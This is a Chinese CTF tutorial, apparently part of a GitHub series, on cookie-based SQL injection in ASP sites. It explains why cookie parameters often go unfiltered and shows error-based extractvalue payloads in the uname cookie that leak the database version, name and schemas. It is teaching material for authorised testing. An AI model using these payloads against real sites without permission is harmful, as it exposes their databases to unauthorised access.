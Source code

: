 # sql注入之cookie注入

## 一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

## 二、什么是cookie

cookie 是指某些网站为了辨别用户身份而存储在用户本地的终端上的数据(通常经过加密)

简单来说，当浏览器访第一次访问服务器时，服务器发给浏览器一段数据，浏览器讲其保存到本地，以后浏览器每次访问服务器时，都带着这个数据来标明自己的身份。这个数据就是cookie

举一个简单例子：比如一个购物网站xxx.com,用户A第一次访问xxx.com 。服务器段给了用户A一个数据id=1.用户B访问服务器，服务器段给了用户B一个数据id=2.当他们下次访问时，用户A,B带着自己的数据id=1、id=2。服务器段收到这个数据，就会区别出A和B的身份。

## 三、cookie注入

之前我们已经了解过了get和post方法的注入,在asp站点中，有些开发人员,为了方便会将代码简写成

>ID=Request("ID")

此时,web服务器段在接受数据的时候,会接受get,post,cookie中的参数.而一般的程序只过滤get和post方法提交的参数.不过滤cookie中的参数.因此存在注入.

由于某些业务的需求，或者开发人员的疏忽也可可能存在cookie注入。

## 四、赛题地址

>https://t.zsxq.com/mmqVVJi

## 五、实战

1.打开链接

发现是一个登录框，我们在哪里输入admin、admin 发现登录成功，登录成功以后，发现在页面显示的有cookie字样。

![](img/1.png)

我们尝试来修改cookie中的admin值来尝试进行注入。

2.修改数据

我们登录网站以后，用bp抓包然后转到Repeater模块。具体方法再次不在做过多叙述。如果不懂可以看我之前的文章

>https://github.com/xiangbab/web-hack/blob/master/%E4%BA%8CSQL%E6%B3%A8%E5%85%A5/9post%E6%B3%A8%E5%85%A5/%E7%AC%AC%E4%BA%8C%E7%AB%A0%E7%AC%AC%E4%B9%9D%E8%8A%82.md

3.修改cookie值

我们首先在admin后面添加一个'发现其成功报错。

![](img/2.png)

4.开始注入

这里我们采用报错注入的方式进行注入。对于什么报错注入不理解的话可以看一下我之前的文章

>https://github.com/xiangbab/web-hack/blob/master/%E4%BA%8CSQL%E6%B3%A8%E5%85%A5/5%E5%8F%8C%E6%9F%A5%E8%AF%A2%E6%B3%A8%E5%85%A5/%E7%AC%AC%E4%BA%8C%E7%AB%A0%E7%AC%AC%E4%BA%94%E8%8A%82.md

接下来我们介绍另外一种报错方法

先放出exp:

>extractvalue(1,concat(0x7e,(select @@version),0x7e))

关于它为什么会报错可以看这里

>https://www.cnblogs.com/xishaonian/p/6250444.html

5.查询数据库版本

>Cookie: uname=admin' and extractvalue(1,concat(0x7e,(select @@version),0x7e))#

![](img/4.png)

6.查询数据名称

>Cookie: uname=admin' and extractvalue(1,concat(0x7e,(select database()),0x7e))#

![](img/5.png)

7.查询数据库名

>Cookie: uname=admin' and extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit 1,1),0x7e))#

![](img/6.png)

接下来关于查询表名，和数据的部分不在叙述。相信大家看了之前的文章应该没有什么问题。

## 六、资源推荐

推荐一个sql报错注入的总结：

>https://blog.csdn.net/whatday/article/details/63683187

## 七、CTF赛题

注册账号请在请求内@江江河畔砍柴人

cookie1:https://t.zsxq.com/NZBAQr3

cookie2:https://t.zsxq.com/UNnu7mU (base64)

cookie3:https://t.zsxq.com/urvBmyF (base64)


## 八、小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：

![](img/00.jpeg)

及时获取更多消息，请关注微信订阅号

![](img//0.jpg)
